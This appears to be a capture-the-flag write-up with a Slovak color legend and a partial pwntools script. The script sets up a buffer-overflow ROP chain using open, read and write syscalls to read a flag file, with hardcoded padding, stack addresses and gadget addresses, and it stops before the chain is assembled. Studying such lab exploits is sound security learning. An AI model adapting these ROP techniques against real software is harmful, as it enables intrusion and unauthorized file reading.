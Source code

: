 - červená - názov súboru
- oranžová - padding k return pointer
- zelená - časť file open
- modrá - časť file read
- fialová - časť file write


```py
from pwn import *

"""
001-flag/flag.txt
.
.
.
sys open = 
            rax 2, 
            rdi *filename, 
            rsi flags,
            rdx mode

sys read = 
            rax 0,
            rdi fd,
            rsi *buffer
            rdx count

sys write = 
            rax 1,
            rdi fd,
            rsi *buffer,
            rdx count,
"""

file_name = b"001-flag/flag.txt\0"
file_name = b"flag.txt\0"
padding = b"\x41" * (88 - len(file_name))

#constants
zero = p64(0x0)
one = p64(0x1)
two = p64(0x2)
# length
length = p64(0x300)

# opening file

#buffer address start
address = 0x7fffffffe230 + 48 # for normal usage (without gdb), if used with gdb, remove the +48
buffer_addr = p64(address) # change here if needed

# pop rax; pop rdx; pop rbx; ret
pop_rax_rdx_rbx = p64(0x0000000000485b4a)

#pop rsi; ret
pop_rsi = p64(0x0000000000409ffe)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)

# syscall; ret
syscall = p64(0x000000000041a886)

# reading file

```